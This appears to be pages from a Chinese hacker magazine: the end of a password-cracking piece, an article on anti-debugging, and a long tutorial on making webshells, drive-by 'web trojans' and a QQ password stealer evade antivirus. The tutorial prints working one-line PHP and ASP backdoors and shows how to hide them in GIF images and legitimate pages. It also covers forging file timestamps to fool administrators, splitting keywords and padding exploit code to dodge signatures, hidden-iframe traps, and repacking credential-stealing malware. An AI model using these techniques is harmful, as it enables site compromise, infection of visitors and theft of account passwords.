毕竟这段代码使用单线程，所以探测速度不是很理想。有兴趣的朋友可以自己进行修改，在没有使用跳板的情况下对自己不安全，而且成功率很大程度上取决于你的运气。优点是这种方法比较有效，但也是比较没有效率的密码破解方式。

# 利用异常终结技术实现应用程序反调试

刘奇

做过共享软件的作者大概都知道反调试的重要性。特别是在中国这种大环境下，Cracker 猖獗，破解作品流传很快……本文将从简单例子出发介绍一种新的有效反调试技术。

```c
char *p;
printf("%c", *p);
return 0;
```

用 VC 编译时会有一个警告：local variable 'p' used without having been initialized……我们利用的就是这一点。


0xCCCCCCCC 是 debug 版本特有的填充值……打开 cmd，输入 debug，输入 a、int 3，再后 u 100 可看到指令。


> “一个有错误的程序摆出来干什么？”

右栏讨论 Windows 的异常处理流程：若未启用调试器，系统接管异常；若启用调试器（如 ollydbg），异常会先转交调试器处理。


如果勾选“非法内存访问”，调试器会让应用自己处理；不勾选时会提示并可用 Shift+F7/F8/F9 跳过。利用处理差异可实现反调试检测。

```c
#include <stdio.h>
int main() {
  ...
}
```

问题的时候通常都有切入点。举个简单的例子，有客户发现某款冰箱太耗电，乖乖，机会来了，解决这个问题就是一个卖点，就能抢占部分市场。回到正题，我们如何利用这个机会呢？试看以下逻辑过程：

- 1. 定义一个未初始化的指针来检测调试器。
- 2. 如果被调试，什么都不做（用来产生异常，让 Windows 弹出非法操作或迫使调试器终止/崩溃）。
- 3. 没有被调试，指针指向存放注册码的数组。
- 4. 弹出一个对话框，取得注册码到待验证的数组。
- 5. 用指针操作注册码，验证合法性。

关键在上面的第二步，如果不被调试程序正常运行，反之程序会被终止，即使有调试器也无法调试。整个过程还有一个问题，如何让检测调试器的过程不被破解者发现。有问题就有机会，希望大家积极研究新的检测调试器的方法。

下面用一个简单的例子来帮助大家理解这种技术。检测调试器的代码原理比较简单，当应用程序被调试时权限会提升，能够用 OpenProcess 的 PROCESS_ALL_ACCESS 权限打开系统进程，系统进程以 csrss.exe 为例。大家可以把 IsOllydbgPresent() 加入到自己的程序中，用于检测 Ollydbg。检测调试器代码如下：

```c
BOOL IsOllydbgPresent()
{
    if (OpenTargetProcessName())
        return TRUE;
    else
        return FALSE;
    // OR return OpenTargetProcessName() ? TRUE : FALSE;
}
```

其中 OpenTargetProcessName() 的代码如下：

```c
BOOL OpenTargetProcessName()
{
    HANDLE hProcessSnap;
    HANDLE hProcess;
    PROCESSENTRY32 pe32;
    hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    ...
}
```

```c
if (hProcessSnap == INVALID_HANDLE_VALUE) {
    puts("createToolhelp32Snapshot of processes");
    return FALSE;
}
pe32.dwSize = sizeof(PROCESSENTRY32);
if (!Process32First(hProcessSnap, &pe32)) {
    puts("Process32First");
    CloseHandle(hProcessSnap);
    return FALSE;
}
do {
    if (stricmp(pe32.szExeFile, TargetProcessName) == 0) {
        hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe32.th32ProcessID);
        if (hProcess == NULL) {
            printf("Open target process %s fail\n", TargetProcessName);
            CloseHandle(hProcessSnap);
            return FALSE;
        } else {
            puts("open process OK");
            CloseHandle(hProcess);
            return TRUE;
        }
        break;
    }
} while (Process32Next(hProcessSnap, &pe32));
CloseHandle(hProcessSnap);
return FALSE;
```

终于到了看成果的时候了，主程序很简单：

```c
int main()
{
    char RegCodeBuf[10];
    char *pRegCodeBuf;
    // 定义一个未初始化的指针
    // 如果没被 ollydbg 调试，初始化 pRegCodeBuf 使其指向 RegCodeBuf
    if (!IsOllydbgPresent()) {
        ...
    }
}
```

```c
char *pRegCodeBuf = RegCodeBuf;
printf("Please input the register code");
scanf("%s", RegCodeBuf);
printf("\n your register code: %s \n", pRegCodeBuf);
printf("If you see this message, you did a good job\n");
return 0;
```

不被调试的时候可以看到 “If you see this message, you did a good job”，如图4。


图4

用 ollydbg 加载程序调试，当我们输入注册码按回车后，程序就产生了异常，命令提示符窗口卡住了，如图5。


图5

此时 ollydbg 会提示异常，如图6（debug 版本）。


图6

看到了 INT 3 的机器码。如果是 release 版本，会看到图7所示。


图7

如果我们使用连续几次 Shift + F7/F8/F9 来忽略异常，那么恭喜，你会看到图8。


图8

然后程序终止了。如果后门的 `printf("If you see this message, you did a good job\n");` 换成注册码运算代码，那么这段代码就不会被调试器跟踪了。再扩展一下思维，如果程序中存在若干类似的指针，那么可以想象这对 Cracker 来说是多么刁钻的事情了。再扩展一点，除了用指针来产生内存访问异常，还可以有除零等异常。如何发挥利用，就看大家的聪明才智了。

（本文涉及到的工具 OllyDbg v1.10 cao_cong 汉化版和相关测试代码，光盘有收录）

# 主题乐园

# 让木马玩转杀毒软件——木马免杀全攻略

ICE [木]

前言：伴随着黑客及档案前进的脚步，我们这些菜鸟也在不停地成长着。对于广大黑友们而言，玩儿木马已经成为大家热衷的一项活动了……今天我就来给大家好好地上一堂课，教会大家如何把自己的马儿保护好。

要是我们传到服务器上，还不一下子给杀掉了？下面就用最简单的 asp 加密工具……点击转换，就全部转换成乱码一样的格式，如图2。

## 第二节 asp、php 木马的免杀

### 一、asp 木马的免杀

现在的网络江湖，可谓是脚本注入攻击横行的时代，而这其中，又以 asp 漏洞利用的最多……下面就让我们来拯救它们吧。

玩脚本入侵的朋友对海阳2006、老兵助手增强版、蓝屏ASP木马等再熟悉不过了……那接下来就让我们来拯救它们吧。

## （一）加密免杀

我们都知道，无论什么杀毒软件都是靠找木马中比较有代表性的那一部分代码作为辨认木马的根据……首先介绍我们的第一种免杀方法：加密免杀。

**思路：** 把 asp 木马里面的代码，也就是那些 asp 语言代码进行加密，让杀毒软件无法找出特征码，从而逃脱。

看看站长助手6.0增强版吧，用卡巴扫描一下，是可以查出有病毒的，如图1。


图1


图2

这样杀毒软件所认的特征码就会无踪影了，再查杀看看，成功逃脱，如图3。


图3

可是这只是简单的加密哦。要是遇到更加强悍的杀毒软件怎么办？这里再介绍一款加密软件——asp木马免杀加密工具 GUI 版……打开加密软件，选择好需加密的站长助手，然后“读取”，再加密，如图4。

再用杀毒软件进行扫描，顺利通过……所以，我给各位推荐一款批量转换 asp 木马的免杀工具。


图4

我们需要转换的类型都填上，可以同时转换 asp、js、vbs、jse 类型。另外要注意的是，这次选择的不是一个 asp 文件了，而是选择那一个文件夹，因为我们要弄批量转换嘛。最好是进行源文件的备份，那么就给源文件加 .bak 给勾选上，最后选择编码，再执行批量转换，如图5。


图5

另外还有许多加密 asp 文件的软件，在此我就不多做介绍了，它们的使用方式都挺傻瓜化的，相信大家可以自己掌握。因为各种杀毒软件都是采用不同的特征码进行辨认 asp 木马的，所以想逃脱各种杀毒软件，就需要自己尝试哪种加密方式比较适合了。

菜鸟语：“假如我们手头没有免杀加密工具，怎么办？”不要紧，接下来就让我们用手工修改逃过杀毒软件吧！

## （二）手工修改特征码免杀

前面已经说过，杀毒软件是依靠辨认特征码来认出木马的，在此我就把自己总结出来的一些 asp、php 木马的特征码罗列出来。

```text
灰客C/S木马Ver1.2 [特征码] if Session("lb")<>"" then execute Session("lb")
灰客数据库木马1.0 [特征码] <%execute request("kker")%>
lanker微型PHP后门2.0正式版 [特征码] <?php eval($_POST[cmd]); ?>
Newmm小型ASP木马 [特征码] <% Response.write "本文件绝对路径" %>
ASP站长助手6.0 [特征码] http://www.GXGL.com/images/FileType/
diy.asp加密版 [特征码] “标签设计友情修改版”
海阳ASP2005木马二娇娘美化版 [特征码] “狗我要插入后门吗”
海阳顶端网ASP木马2006 [特征码] 海阳顶端网ASP木马2006
```

其实还有其他很多的 asp、php 木马也具有特征码，这就需要大家自己去发现和总结了。下面的操作就很简单了，我们以 diy.asp 加密版为例来作个测试吧。我们使用文本把 diy.asp 木马打开，然后选择“编辑”→“查找”，输入关键字“标签设计友情修改版”，然后把它修改为其他的文字，或者索性不要这几个文字了，然后保存为 asp 文件，试验下分别用卡巴跟瑞星来查杀，结果如图6。


图6

卡巴没有检测出来，可是瑞星还没有通过，那么就再结合前面讲过的加密方式进行加密，现在就可以顺利通过了。不知不觉我们就把手工和工具的这两种加密方法融合在一起运用了，现在要做免杀木马也并非难事了。只要大家自己去动动脑筋，一定会想出更妙的方法。至于其他的一些木马，使用上述的方法都可以做到免杀的，部分用得上的特征码我也给出来了。

> **总结：** 至于怎么找 asp、php 木马的特征码，这里给大家一个思路：把一些类似于前面我们提到的文字的敏感信息尝试去修改，还可以借助一些查找 asp、php 木马的工具。例如“恩易 asp 木马追捕”这类软件，因为这类软件是查找 asp、php 木马特征码的，那么我们尝试把一些特殊和 asp、php 类型的一些特征码修改掉。黑客革命尚未成功，同志们仍需努力呀！

## （三）技巧免杀

假如我们使用了前面说的方法都无法做到免杀，那么可以尝试下技巧方面的免杀了。

- 1. 采用一句话插入型木马 + 时间修改器

## 第一步，插入型木马的使用

我们上面说的那些木马虽然可以躲过杀毒软件的查杀，但是要是管理员亲自检查文件呢，怎么办？他一眼看过去就知道那是我们的 webshell 了。为什么？第一，修改时间让他轻易辨认出；第二，我们的文件名是他原来没有的，他一对比就会发现可疑了。那么针对此问题该如何解决呢？我们就采用一句话插入型木马吧。首先来介绍 lanker 的微型 asp 和 php 管理器，它融合了 asp 和 php 木马管理，极其方便，有两句代码：

```php
LANKER 微型PHP后门服务端代码：
<?php eval($_POST[cmd]); ?>
```

# 主题乐园

### ASP代码版（木马）

```asp
<%execute(request("cmd"))%>
```

（其中 `cmd` 是密码）

这两句话我们可以插入到 ASP 文件中，或者插入到 PHP 文件中。被插入的文件可以正常使用，同时被插入的文件将成为我们的服务端，我们再利用控制端，就可以控制 webshell 了。这样就不会出现让管理员发现多了文件的情况。若实在担心的朋友，还可以对这两句代码先进行加密，再插入到网站文件中（不过一般没什么杀毒软件会查杀一句话木马）。如图7，一切使用正常。


图7

> 老树：对于这样的“一句话木马”，假如被杀，还有很好的手工修复方法，就是把大小写相互切换，可以规避杀软的查杀。

再有一款桂林老兵的 C/S 木马，这款木马跟上面介绍的有所不同。这个木马只是应用于再次写入控制型 ASP 木马，而本身不能真正控制网站 webshell。它可以作为一个后门使用，以备控制型 ASP 木马被查杀后，可以重新生成该木马。使用方法：后门地址为我们插入服务端代码的地址；新后门处为我们需要生成的新的 webshell 地址；后门编码表示我们要重新写入的新后门代码；然后选择提交。新的后门就写入了，如图8。


图8

菜鸟语：“好哦好哦，这样就免杀咯，快快去传马！”  
别急啊，这样就想免杀？管理员一眼看到文件的修改时间变动了，不怀疑才怪呢！乖乖全部给我坐好，听课！

## 第二步，修改文件的时间

下面给大家带来了5款文件时间修改器，我们以其中两个有代表性的修改器为例来介绍一下它们的使用。首先介绍的是冰狐浪子时间修改器。

```bash
icyfox_time.exe 0 web\1.asp 0 web\2.asp
```

这样就把 `web\2.asp` 这个文件的时间改为和 `web\1.asp` 一样。

操作如图9。


图9

怎么样？是不是修改了时间呢？它们现在的时间属性都是一样的了。

另外一款是：xpfox 的文件时间修改器。可以同时选择多个需要的文件，然后设置，就会弹出一个对话框，有文件创建时间、最后访问时间、最后修改时间，灵活度大了很多，可以自行修改，也比较方便，但不适合在 webshell 下使用。如图10。


图10

其余的三款我就不介绍了，留给你们自己去玩了。

当，当，当，下课的铃声响起了，唉，下课啦，好累，让俺休息一会儿，再给你们继续讲下去哦……话没说完，全部人一哄而散，不用说我也知道，都——跑去实验室试验我的方法了。

十分钟过后，回来啦~~  
菜鸟语：“有没有不要那么麻烦的，能够把插入功能跟修改文件时间集成到一块的工具，可以方便我们隐藏好自己的木马，而不给杀去？”

好问题！当然有啦，好东西总在后面才出现的。新版的海阳2006是集成了这两个功能的，它也是这类 C/S 木马，不但具备插入功能，还整合了修改 webshell 时间的功能，在此就不多说了。智能程序化，光盘中给你们打包了，课后回去自己看看。

## （2）ASP 马儿合并图片，既隐藏又免杀

再来一招，让 webshell 和 GIF 图片合并，达到隐藏免杀的效果。首先要准备一个图片，然后是个 ASP 马儿（这里不要用太大体积的马，最好用 lanker 一句话马或者用灰客 C/S 马），先来看看灰客的 C/S 马，代码如下：

```asp
if request("kker")<>"" then Session("b")=request("kker")
if Session("b")<>"" then execute Session("b")
```

保存为 ASP 文件，然后用卡巴和瑞星查一下，被查出了病毒，这是正常的，不然我们还做什么免杀啊？如图11。


好，合并行动下面开始啦，大家可要认真听了。有两个方法，原理都是一样；只不过一种方法是在 CMD 下合并，而另一种方法是用 UE 修改。

### CMD下合并

先把要合并的图片（1.gif）和我们的灰客 ASP 马（1.asp）放置同一目录，然后进入 CMD 下，输入命令：

```bash
copy 1.gif /b + 1.asp /a asp.gif
```

（参数 `/b` 是二进制，参数 `/a` 是 ASCII）

如图12，就把 1.gif 和 1.asp 最终合并为 asp.gif 的一张图片。菜鸟语：“那 asp.gif 还是一张图片吗？”——当然是啦，不然怎么把别人给瞒住啊！

但是，这样做法却认不出这个图片里面包含着我们的 ASP 马代码。怎么办？是不是好神奇啊？如图13。

图13中用框住的那些信息，没错吧？但是这样还是不够的，这样的 GIF 图片还不可以利用，我们还需要把它调用出来才可以当作木马使用。首先把这个木马上传到网站上，然后随便给网站中的一个页面加上这么一句：`<!--#include file="你上传的gif图片地址"-->`。这里我把 asp.gif 直接传到网站了，下面我给首页 default.asp 的底部插入了这么一句……


说明一切正常，不过有些是乱码，但不影响我们的正常使用。若觉得不爽，可以自己再修改修改，大体思路就是这样了。

### UE合并

其实上面的方法有时候会不方便，因为图片中有时会碰到有“<%”“%>”这类的符号，就会误认为是 ASP 代码的开始，从而导致我们插入图片中的代码不能得到原本的效果，所以出现了用 UE 来合并的这个方法。这次我们就以 lanker 一句话马为例。首先打开 UE，新建一个文件，把 lanker 一句话马的代码复制进去，然后点击右键，让它进行 hex 转换，因为我们接着要直接在图片中插入二进制代码。

```
（UE中转换后的十六进制代码示意）
3C 25 65 78 65 63 75 74 65 28 72 65 71 75 65 73 74 28 22 63 6D 64 22 29 29 25 3E
```

第二步，用 UE 载入我们的 GIF 图片，还是用刚才的图片吧，看到最后的代码处，把我们刚才转换过来的二进制代码全部粘贴过去。这还不算，我们还要找找代码中是否有“<%”“%>”之类的符号，有的话，当然把它改成其他的，基本不会影响我们的图片！然后保存为 asp1.gif，如图15。


图15

用杀毒软件查杀，依旧认不出来。好啦，第三步，还是跟刚才前面介绍的一样，利用这么一句 `<!--#include file="asp1.gif"-->`，插入到网站的页面，然后进行调用以及控制。检查一下看看是否运行正常，打开 lanker 控制端，输入页面地址和密码，如图16。


图16

嗯嗯，正常使用，既隐藏又免杀，一举两得，强悍！……（后续为对免杀思路、关键字拆分与大小写切换的说明）

- 1. 大小写切换（如将 `execute` 改为 `EXECUTE`）
- 2. 关键字拆分（使用 `+` 或 `&` 连接）

```asp
Set hh=Server.CreateObject("Scripting.FileSystemObject")
```


图17

```asp
Set hh=Server.CreateObject("Scrip"+"ting.file"+"syste"+"mobject")
或
Set hh=Server.CreateObject("Scrip"&"ting.file"&"syste"&"mobject")
```

我们就可以通过下面的语句替换……以此类推，或者“&”“+”一起合用都可以……通过插入空变量来防杀（如 `qsdsdsdf`）……这些方法结合运用可以提升免杀效果。

## 二、PHP木马的免杀

针对 PHP 木马的免杀，没有过多技巧，几乎都是脚本变形。不过不用手工修改，工具可用于对 PHP 文件进行脚本变形免杀。

## （一）加密变形器

- 1. 火狐 PHP 后门脚本变形器

简单介绍：可转换 PHP 后门关键避杀内容。使用方法：去掉文件开头和结尾标记，粘贴代码并转换；需支持 PHP 的空间环境；文中还提到 Apache+PHP+MySQL+Perl 套件与后续示例（图18、图19）。


图18


图19

其实是经过了 base64 转换的，既然这样了，那么杀软又怎么还认得出来呢？不信，我们就拿最新的瑞星和卡巴来扣一下，如图20。


图20

最新的病毒库原来可以把没有加密变形过的 PHP 马查杀出来，但是经我们加密变形后，1.php 却已经顺利逃过杀毒软件的法眼了。只不过在体积上有些增大，虽然大了10多K，不过使用起来一样正常。

### （2）saiy后门脚本变形器——内部版

简单介绍：在火狐 PHP 后门脚本变形器的基础上，进行了特殊处理，体积大大减小。现在网上没有公布，更不提供下载，只能在 saiy 的网站上使用。

使用方法非常简单，跟前面那个工具的使用方式差不多。首先打开这个地址：http://www.51shell.cn/fix/sai.php，如图21。


图21

然后提交本地的 PHP 马，这里我还是选择 phpspy_2006，然后点击“提交加密”，要等好一段时间，然后自动下载一个经过加密并且压缩过的 PHP 马（打包到 51shell）。解压后，我们再比较下大小，如图22。呵呵，三个一比较，立刻有了明显的差别。


图22

## （二）隐蔽插入逃脱型

简单介绍：（有两种方式）

#### （1）lanker一句话木马的插入

其实就是插入一句话木马到网站的正常 PHP 文件中，然后本地有个控制端来控制。这种方式，我们可以使用 lanker 一句话木马来实现，跟我们前面介绍过的 lanker 一句话 ASP 木马的插入和使用方式是一样的。随便打开网站中的一个 PHP 文件进行编辑，然后把 lanker 一句话 PHP 马复制下来插入其中。这里我就选择了主页（index.php）来插入，然后再打开我们的控制器，把地址和密码写入，提交环境变换查看，嘿嘿，成功了（并且不影响正常的 index.php 页面哦），如图23。


图23

这样不就轻易地逃过了管理员的查杀吗？管理员怎么知道我们会插入他正常的 PHP 文件中啊？不过提醒一点，插入后，要使用前面我们介绍过的时间修改器，把修改过的文件时间给修改下。

#### （2）火狐PHP后门插入工具

插入后，用参数的方式来访问。这种方式更加隐蔽，是使用“?id=x”这样的形式来访问的。这里我们需要用到“PHP后门插入工具”，依然是一个 PHP 文件，把它传到网站上。

# 主题乐园

> **使用方式：**

插入到的文件（路径+文件名）可以是绝对路径，也可以是相对路径对应的网站位置（假设文件名为：http://www.xxx.com/index.php，参数为 s，对应方式为“插入后调用方式”）。

要插入的程序代码：写你要插入的 PHP 木马代码。建议代码不要含 `<?php` 和 `?>`，仅保留核心语句。

强烈建议选取论坛等现成样式文件进行插入，注意参数拼接方式（如 `?s=&action=q`）。

这里我选择了文件 `php.php` 进行插入，填写好相关信息后，点击“插入木马”，如图24。


图24

会提示成功修改，然后再来访问这两个页面，看看有何不同，如图25。


图25

嘿嘿，一个原本的 `php.php` 文件正常显示，但是加上参数 `?s=a` 后，结果显示的是我们的 PHP 木马。这样隐蔽的插入型木马，即使管理员手工查杀，也不容易查出。

菜鸟语：“哇，老师，这样我们岂不是天下无敌了！”

“那可不一定哦，矛有必有盾。正因为有查杀软件的步步紧逼，才会有免杀技术的不断提升，其实这两种技术相辅相成。”

#### （3）火狐PHP整目录后门插入工具

特点：主要提供了感染一个目录下面的特定扩展名文件，包括子目录。

对图片的插入同样成功，图片仍可以正常浏览。大家可以自己输入要插入的后门内容。

为了保证后门的隐蔽，该后门并没有添加浏览目录功能。不过鉴于感染性太大，似乎对网站的个别文件会造成破坏，不够稳定，所以不详细叙述，喜欢的朋友可以在自己的空间玩玩。

#### （4）include手工插入法（插入txt、html、gif等文件）

特点：把 PHP 马加密后的代码加入 `txt`、`html`、`gif` 等文件，然后用 `include` 包含调用，隐蔽性增强，不易被发现。

思路：建立一个 PHP 文件进行调用；再建立一个 `txt`、`html` 或 `gif` 文件，把 PHP 马代码写入其中。

- 操作步骤：
- a) 建立一个 PHP 文件，命名为 `guest.php`。
- b) 在同目录下建立一个 `read.txt`，内容为 PHP 马。
- c) 在浏览器中访问：`http://www.xx.com/guest.php?test=read.txt`（如图26）。

```php
<?php
$guest=$_GET[guest];
include $read.txt
?>
```


图26

一切正常，其余的 `html`、`gif` 文件也是类似做法，我就不多说了。

## （三）技巧型免杀

最后一种 PHP 木马免杀的方法就是手工替换特征码。我们知道，研究 PHP 漏洞比较出名的就是安全天使和 saiy 了，所以有些杀软会识别 `saiy` 或者 `angel` 的网站前缀、或者缩写等字样，就给辨认为木马病毒。

先来看一些出现的 `saiy` 修改版 PHPSPY，用最新的瑞星和卡巴扫描，效果如图27。


图27


图28

我们把代码中的这段话  
`$notice = "<a href=\"http://www.51shell.cn\" title=\"浅蓝的辐射鱼\">Http://www.51shell.cn</a>[<a href=\"http://www.4ngel.net\" title=\"安全天使\">s4t</a>]";`  
的网址和名字，全部替换为其他的，随便换。然后再查杀，竟然逃过了瑞星的最新病毒库，如图28。

菜鸟语：“哇！这次的特征码还真是具有很特别的特征。呵呵，那安全天使和辐射鱼两位哥哥不是可以在病毒库里留名青史了？”


## 第二节 网马的免杀

十分钟过后，大家又回到了课堂。  
“上两节课跟大家一起学习探讨了对于 ASP、PHP 这类 webshell 的免杀方法，大家感觉如何啊？”

菜鸟语：“爽啊！今后我们再也不用担心自己 Webshell 什么时候会无缘无故地给杀了。那么我们接下来要学点什么内容呢？希望 ICE[杰] 老师能够大公无私地多教我们点东西哦，我们可是在各地抽取宝贵听课的幸运读者……”

“嗯，好的，接下来什么最火热啊？”

一菜鸟跳出来说：“网马。”然后停顿下，又说：“不过我们的网马都给杀，没用，抓不到肉鸡。”

“嘿嘿，别急嘛，既然给杀，就正合我们的主题啦。我们的课程主题就是做免杀，那就继续教教大家如何做网马免杀吧。”

### 技术一：加密、编码免杀法

我们首先要配置一个木马服务端并生成一个网马，这里我选用了灰鸽子和“Hclzbe网页木马生成器”。至于详细的配置不是今天的话题，所以这里我不做讲解了。选择好木马服务端以后，直接生成网马（这里注意了，不要选中网马生成器的自带加密功能，因为你如果加密过的话，我们就不可以再加密了），如图29。


呵呵，就这样轻易地过了最新的卡巴和瑞星了，同学们是不是很兴奋呢？这里只是作个引题而已，对于其他的网马生成器生成出来的网马，我们一样可以尝试这种加密、编码的方法去尝试做免杀的哟。


生成后会在根目录下多了两个文件，分别是 tzd.htm 和 tzd.js 文件。玩过网马的人都知道，只要把这两个文件传到网站上，别人一浏览就会中了我们的网马。可是这两个文件偏偏就是被杀的，不信我们查查看，如图30。

无论是卡巴还是瑞星，它都过不了。那如果就这样传到网站，怎么可能会有人中木马呢？恐怕还没等别人浏览，你的网马在上传到服务器上的时候就已经一命呜呼了。对于这两个文件，我们先用“网页加密器.exe”给我们的 htm 文件加密，再用 asp.exe 给我们的 js 文件编码操作（选择编码，然后保存为 .sf 后缀，请自行修改回 js 后缀）。使用操作十分简单，大家打开软件，然后分别把 htm 和 js 文件选上，再分别选加密和编码，就可以了。这时再用两个杀毒软件查杀看看，如图31。

### 技术二：双重加密法（Unicode 的基础上采用 EnCode 再次加密）

我们知道，其实很多网马的 htm 都会被杀，因为它属于网马的核心嘛。这里我教大家一招，可以躲过卡巴查杀的简单方法，那就是双重加密法。我们要用到一个在线工具，到网上搜索“Unicode 和 EnCode 的在线加密”就可以了。首先把我们用网页木马生成器生成的 htm 代码用 Unicode 进行加密，然后再把加密过的代码进行一次 EnCode 加密，这样我们就做到 htm 的免杀了。不过此类方法不一定可以通过瑞星的查杀，也许是因为瑞星采用内存免杀机制，所以在测试 htm 的时候会给查杀。

> **小提示：** 进行 EnCode 加密时，应先加密脚本前缀，不加密脚本标记。`<script language="javascript">` 经过加密后，脚本标记应改为 `<script language="JScript.Encode">`。

### 技术三：全套加密免杀

下面我们用小川网马来看看如何制作免杀。生成网马相关的有三个文件：htm、gif、css。其中 css 是否被杀是看你的木马服务端本身是否被杀，所以跟我们说的网马免杀技术无关。我们主要是让 htm、gif 免杀。我说过前面的方法都不能得到很好的免杀效果，在此给大家推荐一款综合加密免杀工具，它可以对任何文件进行加密，而不像我们前面的只会对 htm 或者 js 加密，如图32。

打开软件后，在类型中选择 `*.*`，再选择好你的网马目录，添加好要加密免杀的文件，点击加密，就 OK 了，然后用最新...

# 主题乐园

星和卡巴扫描了一下，已经检查不出来了。

## 技术四：手工免杀法（加空代码和垃圾代码）

这种方法比较烦琐，但效果特别好。首先把我们生成的 htm 网马用文本格式打开，然后一小段一小段地把代码去掉，再用杀毒软件查杀，看看究竟杀毒软件对我们代码中的哪些代码会杀。若发现我们的代码中去掉了某一段后，杀毒软件就不再查杀这个 htm 文件的话，那么就基本可以断定这一小段就是我们的特征码了，我们就可以在其中加上空代码和垃圾代码，以逃过杀毒软件的查杀。

图32

下面就以穿透 SP2 的网马做个试验，先用杀毒软件检测，是被查杀的，如图33。

图33

再用 txt 打开，我自己测试一段段代码去掉，然后查杀，最终得出它的特征码定位为：

```html
<SCRIPT>cctv.Click();setTimeout("zgds.Click();",0);</SCRIPT>
```

我们就在每个字母中间加上空格，或者用 UE 进行修改，在其中加上 00h 代码，如图34。修改之后特征码如下：

```html
<SCRIPT>c c t v . C l i c k(); s e t T i m e o u t("z g d s . C l i c k();",0);</SCRIPT>
```

再次插入原来的位置，保存为 htm 文件，这次再查杀看看，已经躲过了卡巴和瑞星了。至于加垃圾代码，就是加一些特殊字符，步骤跟前面加零代码一样，从而导致 htm 网马特征码被打乱，让杀毒软件无法查杀。

> **小提示：** 同时可以结合字母大小写与替换的方法来做免杀效果。

当当当~~铃声再次响起，打破了课堂的宁静气氛。大家似乎听得入迷了，一时之间还没有反应过来……

图34

## 技术五：图片隐藏免杀法

接下来要给大家带来的是——图片隐藏免杀法。菜鸟语：“又是图片隐藏法？看来图片跟木马的关系很大哦。”……前面介绍的结合 webshell 的隐藏方法有所不同，下面就来继续学习吧。

htm、js、gif 文件我们都学会了基本的加密免杀，可以逃过许多杀毒软件的查杀，但如果管理员去手工查杀怎么办？于是就有了今天我们的图片隐藏免杀法，其实也很简单。

把下面的代码保存为一个图片，用来迷惑别人，同时也是免杀的：

```html
<html>
<body>
<iframe src="木马网页地址" width=0 height=0></iframe>

</body>
</html>
```

当别人打开这张图片的时候，打开的是这个图片的地址，但是其实已经在他的电脑里打开了我们的木马网址（因为 jpg 的格式，只要有 html 的代码就可以表示出来，其他的图片格式也一样适用）。

htm 文件都给查杀出来，我们先做 htm 免杀，新建一个文件夹，然后用伯乐免杀器，选择木马路径，也就是我们的 htm 文件，输出路径也就是我们刚才新建的文件夹，然后点击“生成样本”就可以了。按照默认设置，一共生成了 36 个 htm 文件，如图35。

```html
小提示：com.asp 隐藏网页路径有很多种，这里推荐一种简单的方法：
<iframe src="可写地址" height=0 width=0></iframe>
或者把文件改为其他后缀：
index.file==com.asp
```

**综合技术：** 前面我们所做的免杀都是分别针对 html、gif、js 文件进行加密免杀的。为了加深印象，这里举一个综合例子：先生成网页，得到 htm 和 gif 文件，再分别处理。

用瑞星和卡巴扫描后仍有残留，需要继续压缩处理；推荐使用压缩工具进一步减小体积。再做 gif 免杀，这里推荐 HTML 混淆器：选择 gif 图片，填写混淆度（默认 10），生成后再查杀即可通过，如图37。好啦，我们的网页木马免杀技术到此告一段落。

菜鸟语：“哎呀，还有点时间呢，老师，不如教教我们如何把 css 文件也做免杀啊。”

菜鸟语：“那还剩下的10分钟，不妨就教我们如何做服务端免杀吧。”

先给大家讲点基础理论知识，让大家对木马服务端的免杀有个简单了解。主要有两种方式：对文件本身的查杀（文件免杀）和对内存的查杀（内存免杀）。下面演示文件免杀。

## 1. 加壳前的工作——脱壳

首先了解什么是“壳”。“壳”是专门保护软件不被非法修改或反编译的程序，一般先于原程序运行，取得控制权后完成保护任务。查壳是在制作免杀或破解前，对目标文件进行检查并判断其加壳情况，查出加的壳，然后就能用相应的脱壳工具来脱掉它，才能给程序进行加壳。

这里我们就拿阿拉 QQ 大盗来开刀吧。首先配置好一个服务端，这里我用 fi.exe 进行查壳，把需要查壳的木马程序，即 QQ 大盗的服务端用鼠标拖动到 fi.exe 程序中，显示是 upx v1.90 加的壳，如图38。

现在我们就用 upx 1.90 脱壳工具给它脱壳，这脱壳工具是在 CMD 下使用的。

```
upx1.90.exe -d 需要脱壳的程序名
```

脱壳成功后，会显示“Unpacker 1 file”。

## 2. 加生僻壳免杀

脱壳完以后，为了能够更好地免杀，我们不使用普通壳，而是加个生僻的壳。我推荐使用仙剑个人免费版的加壳程序。

使用很简单，选择好我们要加密的客户端，再把前五个勾给勾选上，最后一个“擦除 PE header”暂时不建议你们选，然后点击“加密”即可，如图39。

加密后，大了4K，这就是我们所说的加密壳。以后还会给大家介绍压缩壳，加了壳以后程序的体积反而会变小，但是无论变大或者变小，都不影响我们程序的正常运行。这里我测试过，运行后，邮箱中会得到 QQ 密码。

## 3. 加多重壳免杀

> 菜鸟有疑问了：“加多重壳不会影响到程序的正常运行吗？”

“当然不会啦，加多重壳，就等于加了多重保护呀！”

好吧，我们给刚才的阿拉大盗服务端，加个免杀壳，再加个伪装壳，让杀毒软件认不出来才行。操作跟刚才类似，选择好文件就加壳，第二次加壳，我就将其伪装成了 aspack 壳后再加壳的，如图40。

最后用最新卡巴和瑞星都过了，没有给杀。这就是简单的文件免杀啦。

今天的课程暂时就到此结束吧，我们来总结一下：我们主要学了两个专题的免杀，分别是 webshell 的免杀和网页木马的免杀。最后应大伙的要求，还讲了点关于木马程序的免杀，不知道大家掌握得如何，希望大家回去好好复习，不懂的可以到我们 x 档案论坛发问啦。

> “老师，老师，别走，下次课什么时候上啊？下次课上什么新内容呢？”

“下次课啊，那得看大家学得如何啦，如果大家都挺喜欢这门课的话，可以向 x 档案的众小编 GGJJ 们提建议啊，相信他们会让我再来给大家上课的。如果有幸回来与大家见面，我会教大家详细的木马程序的免杀。”

同学们不舍地离开了课堂……

（本文涉及的相关工具：asp 加密工具、asp 木马免杀加密工具 GUI 版、恶易 asp 木马追捕、冰狼浪子的时间修改器、加密变形器、Apache+PHP+MySQL+Perl 服务器套件 v1.16 RC、phpspy 2006、saiy 后门脚本变形器、火狐 PHP 整目录后门插入工具、include 手工插入法、小川网马、Hclzbe 网页木马生成器、灰鸽子网页木马生成器、网页加密器、主页加密、伯乐免杀器、hackeroo 压缩工具、博文压缩工具、HTML 混淆器、阿拉 QQ 大盗、fi.exe、upx 1.90、仙剑个人免费版、aspack，光盘中有收录。）

# 黑客精英的梦想

chenggong

> （引言框）黑客并不神秘，真正重要的是技术、思维与规则意识。本文以游戏《黑客精英》为例，介绍其基本玩法与入门设置，帮助读者在体验中理解网络攻防知识。

